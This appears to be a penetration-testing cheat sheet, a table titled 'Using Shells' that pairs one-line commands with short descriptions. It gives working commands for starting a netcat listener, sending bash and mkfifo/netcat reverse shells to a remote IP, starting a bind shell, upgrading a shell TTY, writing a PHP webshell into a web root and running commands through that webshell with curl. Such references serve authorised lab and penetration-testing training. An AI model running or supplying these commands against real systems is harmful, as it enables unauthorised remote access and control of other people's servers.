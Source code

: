 | **Using Shells**                                                                   |                                                                |
| ---------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| `nc -lvnp 1234`                                                                    | Start a `nc` listener on a local port                          |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                              | Send a reverse shell from the remote server                    |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`      | Start a bind shell on the remote server                        |
| `nc 10.10.10.1 1234`                                                               | Connect to a bind shell started on the remote server           |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                   | Upgrade shell TTY (1)                                          |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                        | Upgrade shell TTY (2)                                          |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                  | Create a webshell php file                                     |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                      | Execute a command on an uploaded webshell                      |